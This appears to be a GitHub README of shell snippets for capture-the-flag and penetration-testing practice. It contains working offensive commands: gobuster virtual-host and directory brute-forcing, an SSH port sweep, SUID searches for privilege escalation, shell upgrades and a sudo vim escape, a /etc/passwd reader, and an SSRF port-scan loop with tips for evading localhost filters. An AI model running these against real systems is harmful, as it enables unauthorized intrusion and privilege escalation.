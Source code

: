 # Some useful shell scripts
I upload some useful shell scipts here now and then.

### **Clone the repository**
```bash
git clone https://github.com/century300/useful-shell-scripts ~/Downloads/useful-shell-scripts && cd ~/Downloads/useful-shell-scripts && chmod +x *
```
<br/>

### **read_etc-passwd_file.sh**
- This script read the /etc/passwd file and output each user shell and directory
```bash
./read_etc-passwd_file.sh
```
- Or you can run the code in terminal
```bash
while IFS=: read -r f1 f2 f3 f4 f5 f6 f7
do
 echo "User $f1 use $f7 shell and stores files in $f6 directory."
done < /etc/passwd
```
<br/>

### **Bash for loop**
- for loop syntax
```bash
for OUTPUT in $(Linux-Or-Unix-Command-Here)
do
	command1 on $OUTPUT
	command2 on $OUTPUT
	commandN
done
```
- Usage 1: gobuster brute-force using SecLists subdomains wordlist to discover virtual hosts names, then use **_for loop_** and dirbuster wordlist to find the _flag_ in there
```bash
gobuster vhost -u http://TargetWebsite.com -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t30

for vhost in subDomain1 subDomain2 subDomain3; do gobuster dir -u http://${vhost}.TargetWebsite.com -w /usr/share/dirbuster/directory-list-2.3-small.txt -x php,txt -t30 -o Output.txt; done
```
- Usage 2: **ssh_spam.sh**: check to see which one is the useful/real ssh service in CTF
```bash
# You can run the ssh_spam.sh directly
./ssh_spam.sh

# Or you can copy the script to your terminal to run directly
for port in {1..65535}
do
	printf "$port"
	ssh -o StrictHostKeyChecking=no -p $port <target_IP>
done
```
<br/>

### **Privilege escalation by using SUID**
- **-u=s** denotes files owned by the root user, **2>/dev/null** means to redirect all errors to /dev/null (aka ignoring all errors)
```bash
# Find SUID executables
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null

# Find SUID
find / -perm -u=s -type f 2>/dev/null

find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```
<br/>

### [**Reverse Shell Tricks**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
```bash
# Get a tty shell
python -c 'import pty; pty.spawn("/bin/sh")'

# Upgrade shell to a tty
SHELL=/bin/bash script -q /dev/null

# Set terminal
export TERM=xterm-256color

#Switch to the background with CTRL+Z

# If sudo -l in user has access to /usr/bin/vim
sudo vim -c ":!/bin/sh"
```
<br/>

### SSRF attack to see which port is open
- We can use bash script instead of Burp Suite Intruder attack
```bash
# Run the script directly
./ssrf-open-ports.sh

# Run the source code directly in the terminal.
# 127.0.0.1 can be replaced with its Decimal (2130706433) or Hexadecimal (0x7f000001) counterparts to bypass restrictions.
for x in {1..65535};
    do cmd=$(curl -so /dev/null http://10.10.xx.xx:8080/attack?url=http://127.0.0.1:${x} \
        -w %{size_download});
    if [ $cmd != 1045 ]; then
        echo "Open port: $x"
    fi
done
```
